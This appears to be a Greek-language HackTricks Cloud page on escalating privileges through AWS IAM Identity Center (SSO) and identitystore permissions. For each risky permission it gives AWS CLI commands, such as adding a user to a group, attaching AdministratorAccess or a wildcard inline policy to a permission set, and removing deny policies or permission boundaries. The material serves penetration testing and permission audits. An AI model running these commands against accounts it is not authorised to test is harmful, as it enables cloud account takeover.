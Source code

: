 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Για περισσότερες πληροφορίες σχετικά με το AWS Identity Center / AWS SSO ελέγξτε:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι από **προεπιλογή**, μόνο **χρήστες** με δικαιώματα **από** τον **Λογαριασμό Διαχείρισης** θα μπορούν να έχουν πρόσβαση και **να ελέγχουν το IAM Identity Center**.\
Χρήστες από άλλους λογαριασμούς μπορούν να το επιτρέψουν μόνο αν ο λογαριασμός είναι **Δεσμευμένος Διαχειριστής.**\
[Ελέγξτε τα έγγραφα για περισσότερες πληροφορίες.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Επαναφορά Κωδικού Πρόσβασης~~

Ένας εύκολος τρόπος για να κλιμακώσετε τα δικαιώματα σε περιπτώσεις όπως αυτή θα ήταν να έχετε μια άδεια που να επιτρέπει την επαναφορά των κωδικών πρόσβασης των χρηστών. Δυστυχώς, είναι μόνο δυνατό να σταλεί ένα email στον χρήστη για να επαναφέρει τον κωδικό του, οπότε θα χρειαστείτε πρόσβαση στο email του χρήστη.

### `identitystore:CreateGroupMembership`

Με αυτή την άδεια είναι δυνατό να τοποθετήσετε έναν χρήστη μέσα σε μια ομάδα ώστε να κληρονομήσει όλα τα δικαιώματα που έχει η ομάδα.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να χορηγήσει επιπλέον άδειες σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του.

{% hint style="warning" %}
Για να εκμεταλλευτείτε αυτές τις άδειες σε αυτή την περίπτωση, πρέπει να γνωρίζετε το **όνομα μιας πολιτικής διαχείρισης πελατών που βρίσκεται σε ΟΛΟΥΣ τους λογαριασμούς** που θα επηρεαστούν.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δώσει ένα Permission Set σε έναν χρήστη υπό τον έλεγχό του σε έναν λογαριασμό.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Επιστρέφει τα STS βραχυπρόθεσμα διαπιστευτήρια για ένα συγκεκριμένο όνομα ρόλου που έχει ανατεθεί στον χρήστη.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ωστόσο, χρειάζεστε ένα διακριτικό πρόσβασης που δεν είμαι σίγουρος πώς να αποκτήσετε (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας διαχειριζόμενης πολιτικής AWS από το καθορισμένο σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν περισσότερα προνόμια μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας πολιτικής που διαχειρίζεται ο πελάτης από το συγκεκριμένο σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν περισσότερα προνόμια μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τις άδειες από μια inline policy από το permission set. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αποσυνδέοντας μια inline policy (deny policy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει το Permission Boundary από το σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αφαιρώντας τους περιορισμούς στο Permission Set** που δίνονται από το Permission Boundary.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
